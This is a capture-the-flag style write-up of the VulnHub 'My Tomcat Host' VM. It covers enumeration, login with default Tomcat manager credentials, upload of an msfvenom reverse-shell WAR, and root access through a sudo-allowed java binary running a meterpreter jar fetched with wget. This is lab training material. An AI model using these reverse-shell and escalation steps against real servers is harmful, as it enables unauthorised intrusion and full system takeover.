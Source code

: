```yaml
---
published: true
layout: post
title: Tomcat Host
category: Vulnhub
author: F3dai
image: https://imgur.com/e78J3dy.png
---
```


Welcome to "My Tomcat Host". This boot to root VM is designed for testing your basic enumeration skills and concepts.

**Url**: [Tomcat Host 1 VulnHub](https://www.vulnhub.com/entry/my-tomcat-host-1,457/) 

**Difficulty**: Easy/Beginner Level 

**Author**: Akanksha Sachin Verma 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1
some more code for example</pre>
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.110</pre>

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my browser reveals an Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

<pre>192.168.56.110:8080/manager/html</pre>

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local address.

<pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war</pre>

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

<pre>nc -nvlp 4444</pre>

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

<pre>id
python -c 'import pty;pty.spawn("/bin/bash")'</pre>

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo privileges to see how we can start escalating privileges:

<pre>sudo -l</pre>
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

<pre>msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar</pre>

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

<pre>service apache2 start</pre>

Go to the temp directory on the victim's machine and transfer the payload over.

<pre>cd /tmp
wget http://192.168.56.101/fedai.jar</pre>

![wget](https://imgur.com/PmLq6W1.png)

### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

<pre>msfconsole
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lport 5555
run</pre>

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

<pre>sudo java -jar fedai.jar</pre>

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)
